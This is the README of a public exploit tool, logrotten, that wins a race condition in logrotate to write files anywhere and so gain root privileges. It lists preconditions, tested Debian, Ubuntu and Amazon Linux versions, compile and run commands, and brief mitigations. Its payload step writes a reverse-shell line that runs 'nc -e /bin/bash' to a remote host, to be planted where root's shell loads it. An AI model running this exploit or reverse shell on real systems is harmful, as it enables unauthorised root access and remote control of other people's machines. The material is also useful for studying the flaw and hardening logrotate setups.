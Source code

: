 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was found during a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - "create" option is set in the logrotate configuration
    (This exploit might not work without)

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit
```
nice -n -20 ./logrotten /tmp/log/pwnme.log payloadfile
```
## Known Problems
  - It's hard to win the race inside a docker container

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten

